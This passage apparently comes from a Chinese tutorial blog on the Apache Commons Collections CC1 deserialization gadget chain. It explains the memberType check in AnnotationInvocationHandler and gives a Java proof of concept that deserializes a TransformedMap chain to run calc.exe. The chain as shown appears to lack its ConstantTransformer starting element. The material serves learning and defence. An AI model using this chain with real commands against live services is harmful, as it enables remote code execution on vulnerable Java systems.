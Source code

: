 点击运行后，发现依然没有成功，又有问题出现了，此时可以在反序列化的地方打上断点，然后去分析，发现在调用AnnotationInvocationHandler类下的readObject方法时，存在一个判断条件：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5ff34619f9283ddaba348d31701b7b18.png)
打上断点调试跟进，发现此时memberType为空，所以第一个if就无法通过，而这里的memberType是获取注解中的成员变量的名称，然后检查键值对中键名是否有应的名称：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9f15e7821623d9f4aebbd0224b4a37c6.png)

但是我们使用的注解是没有成员变量的：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/0d7267198f3bacfe88770d010d17b22a.png)
于是更换注解为Target，其中有一个名为value的成员变量，同时更改设置的键值对的键为“value”，poc为如下版本：

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.annotation.Target;

public class test01 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        //将数组transformers传给ChainedTransformer，构造利用链
        Transformer transformerChain = new ChainedTransformer(transformers);
        //invokertransformer.transform(runtime);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","pear");
        Map transformedmap = TransformedMap.decorate(map,null,transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
    }
}

```